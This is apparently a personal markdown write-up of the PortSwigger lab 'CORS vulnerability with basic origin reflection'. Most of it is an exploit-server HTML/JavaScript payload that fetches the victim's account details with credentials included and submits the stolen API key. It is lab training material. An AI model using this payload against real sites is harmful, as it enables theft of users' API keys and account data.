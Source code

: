 ```yaml
---
title: PortSwigger Cross-origin resource sharing (CORS)
description: PortSwigger Cross-origin resource sharing (CORS)
last_update:
  date: "2025-08-25T08:00:00+08:00"
---
```


## Lab: CORS vulnerability with basic origin reflection

| Dimension | Description                                                                                                |
| --------- | ---------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#server-generated-acao-header-from-client-specified-origin-header |
| Lab       | https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack                               |

在 exploit-server 構造

```html
<script>
  fetch(
    "https://0ae00026030c463780b68f5900490011.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>
```

## 參考資料

- https://portswigger.net/web-security/cors
